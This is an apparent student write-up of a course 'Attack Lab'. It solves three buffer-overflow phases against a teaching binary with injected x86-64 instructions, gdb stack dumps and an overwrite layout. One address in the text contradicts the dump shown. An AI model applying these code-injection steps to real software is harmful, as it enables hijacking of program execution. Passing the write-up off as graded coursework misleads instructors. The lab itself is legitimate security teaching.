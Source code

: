 ## Attack Lab
### Phase 1:
No new code is injected. Overflow the buffer to redirect execution into `touch1()`.

### Phase 2:
Redirect execution into injected in the buffer, to modify argument (%rdi) to cookie:
```
movq $0x59b997fa, %rdi
```
Also, PUSH address of `touch2()` into stack (which also decrements %esp):
```
push $0x004017ec        # Address of touch2()
```
After executing RET, `touch2()` is executed.

## Phase 3:
Phase 3 is similar to phase 2, except that additional space is needed in stack to store cookie in ASCII. The stack before executing `getbuf()` has the following layout:
```
(gdb) x /20w 0x5561dc78
0x5561dc78:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```
The stack after executing `getbuf()` has the following layout:
```
(gdb) x /20w 0x5561dc78
0x5561dc78:	0x60dcb8bf	0x2534ff55	0x004018fa	0x000000c3
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x00000000	0x00000000	0x5561dc78	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x39623935	0x61663739	0xf4f4f400	0xf4f4f4f4
```
Where:
* 0x5561dc78 - 0x5561dc9f is the `getbuf()` buffer, which will be injected with instructions:
    ```
    movq $0x5561dcb8, %rdi
    push $0x4018fa          # Address of touch3()
    ret
    ```
* 0x5561dca0 - 0x5561dca7 will be overflowed with address of 0x5561dc88 (to redirect the execution into injected after hitting RET of `getbuf()`
* 0x5561dcb8 - 0x5561dcbf is empty, in which we fill in the cookie in ASCII.
* Others: Should not be modified.  

Overflow the buffer as described above.  
